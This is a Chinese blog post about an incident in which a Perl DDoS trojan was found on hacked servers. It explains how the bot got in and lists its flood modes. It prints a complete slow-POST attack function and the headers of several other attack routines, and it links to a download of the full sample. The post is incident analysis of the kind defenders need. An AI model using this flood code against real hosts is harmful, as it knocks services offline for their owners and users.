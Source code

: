 ```yaml
---
date: '2012-04-22 16:04'
layout: post
slug: zt-an-experience-of-server-anti-ddos
title: "[ZT]记一次运维，一个 Linux 木马"
description: ""
category:
tags: [ddos, server]
---
```


http://www.lovelucy.info/an-experience-of-server-anti-ddos.html<br>
2012-04-22 16:04	| 25 次围观<br>
<font color="navy">嘛，新平台上的第一篇新帖子……</font>

* * *

上个月数据中心的多台服务器接连被人挂马，又有客户的网站被 DDOS，公司的运维整个都处于一种被打了鸡血的亢奋状态，连我手上的项目都被部门老大停了，调去帮运维。第一次见到 Linux 下面的木马，突然想起来，还是值得记录一下。

分析日志发现 Attacker 应该是通过某种途径获得了客户的后台密码，然后利用控制面板的漏洞，上传了压缩包里的 `falabiya.cgi` 并运行。这样会生成 `.X11-unix` 文件（其实就是 falabiya 那一段 `base64_decode`）， `.X11-unix`即具体的后门程序。

信安专业的 Felix021 和芒果师兄都对这个案例表示出了兴趣，于是我分别和他们分析了一下。这是一段 perl 脚本，写得十分精妙。具体功能就是拿我们的服务器做肉鸡，监听端口获取指令，向指定地址发送数据，从而实行 DDOS 攻击。代码内置了几乎所有浏览器的 UA 字符串，每次都随机抽取其中一个，伪装为正常访问。genGarbage、tcp flood、udp flood、slow get/post 等各种 DDOS 方式均有实现，特别是 sendSlowPostRequest 这个方法，实在太贱了，一点点地发，对方必须 hold 住资源等你发完。。短短数百行代码，却对各种错误异常处理得十分仔细，必然出自高人之手。注释里有些不能识别的字符，也不知道是什么编码，无法推断是哪个国家的黑客写的。。

<font color="navy">
Galaxy看到注释中有<code>#id3|slowpost|ya3.ru|3128|/index.html</code>，就猜到是俄语。到EditPlus中翻了半天，找到<code>Ukrainian (MAC) 10017</code>，解出来一看，果然是。<br>
话说，俄语的学名是“乌克兰语” <font style="font-family: Arial Unicode MS, Lucida Sans Unicode;">[ukrɑˈjɪɲsʲkɑ ˈmɔwɑ] </font>么？
</font>

{% highlight perl %}
sub sendSlowPostRequest {
	my $host = $_[0];
	my $port = $_[1];
	my $path = $_[2];
	my $contentLen = $_[3];
	my $chars = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_+|\=-~`1234567890";

	print "start\n";

	socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
	$iaddr = inet_aton($host);
	$paddr = sockaddr_in($port, $iaddr);
	connect(SOCK, $paddr);

	#send header
	send (SOCK, "POST ".$path." HTTP/1.1\r\n", 0);
	send (SOCK, "Host: $host\r\n", 0);
	send (SOCK, "User-Agent: $ua\r\n", 0);
	send (SOCK, "Content-type: application/x-www-form-urlencoded\r\n", 0);
	send (SOCK, "Content-length: $contentLen\r\n", 0);
	send (SOCK, "\r\n", 0);

	#send body
	for my $i (1..$contentLen){
		my $symbol = substr $chars, int rand length($chars), 1;
		print "$symbol ";
		send (SOCK, $symbol, 0);
		sleep 3;
	}
	send (SOCK, "\r\n", 0);
	close(SOCK);
	print "end\n";
}
{% endhighlight %}

后来我们清理掉了所有木马，限制脚本运行，配置防火墙阻止向外发送异常数据。至于我们自己被 DDOS 攻击，也是配防火墙搞定，那几台设备好几百万，还是相当给力的。因为来自中国的攻击很多，Boss 一直对内地黑客十分“敬仰”，要我介绍几个给他认识。。其实我是了解国内那些所谓的“黑客”的，不得已只好把也是武大信安毕业后来去中科院的 LC 拉来……后来 Boss 还跑去北京找绿盟谈过合作，据说他家要上市了。

代码请[猛戳这里](/assets/wp-uploads/2012/peach.20120228.zip "http://host-for-download.googlecode.com/files/peach.20120228.zip")下载。有任何研究发现，欢迎分享。

* * *

<font color="navy">Galaxy随手喂Google翻译了几句：</font>

{% highlight perl %}
#хттп √≈“ атака (парамерты : хост, порт, путь до скрипта, врем¤ ожидани¤ между запросами)
# Http √ ≈ "attack (paramerty: host, port, path to the script, the time ¤ ¤ timeout between requests)
sub sendGetRequest {
	my $host = $_[0];
	my $port = $_[1];
	my $path = $_[2];

#хост, порт, путь до скрипта, врем¤ ожидани¤ между запросами, текстовый буффер дл¤ отсылки в теле ѕќ—“а
# Host, port, path to the script, the time ¤ ¤ timeout between requests, the text buffer dl ¤ ѕќ references in the body, "a
sub sendPostRequest {
	my $host = $_[0];
	my $port = $_[1];
	my $path = $_[2];
	my $content = $_[3];

# HTTP GET (парамерты : хост, порт, путь до скрипта, врем¤ ожидани¤ между запросами)
# HTTP GET (paramerty: host, port, path to the script, the time ¤ ¤ timeout between requests)
sub attackHttpGet {
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $port = $_[1];
		my $path = $_[2];
		my $sleep = $_[3];
		my $duration = $_[4];

# ѕќ—“ атака (парамерты : хост, порт, путь до скрипта, врем¤ ожидани¤ между запросами, текстовый буффер дл¤ отсылки в теле ѕќ—“а)
# Ѕќ-"attack (paramerty: host, port, path to the script, the time ¤ ¤ timeout between requests, the text buffer dl ¤ ѕќ references in the body-" a)
sub attackHttpPost {
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $port = $_[1];
		my $path = $_[2];
		my $sleep = $_[3];
		my $content = $_[4];
		my $duration = $_[5];

# TROLL атака (парамерты : хост, порт, кол-во коннектов на 1 поток, слип). если порт 0, то порт рандом.
# TROLL attack (paramerty: host, port, number of connections in a thread, slip). if the port is 0, the random port.
sub attackTroll {
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $port = $_[1];
		my $connects = $_[2];
		my $sleep = $_[3];
		my $duration = $_[4];

# TCP атака. тоже что и тролл, но с посылкой мусора в порт после коннекта. доп.параметр : максимальный размер мусорного реквеста.
# TCP attack. Same as trolley buses, but with sending debris into port after connect. dop.parametr: the maximum size of a garbage rekvesta.
sub attackTcpTroll {
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $port = $_[1];
		my $connects = $_[2];
		my $maxLen = $_[3];
		my $duration = $_[4];

# HTTP from IRC (парамерты : хост, длительность)
# HTTP from IRC (paramerty: host, duration)
sub attackHttpFlood {
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $duration = $_[1];
{% endhighlight %}
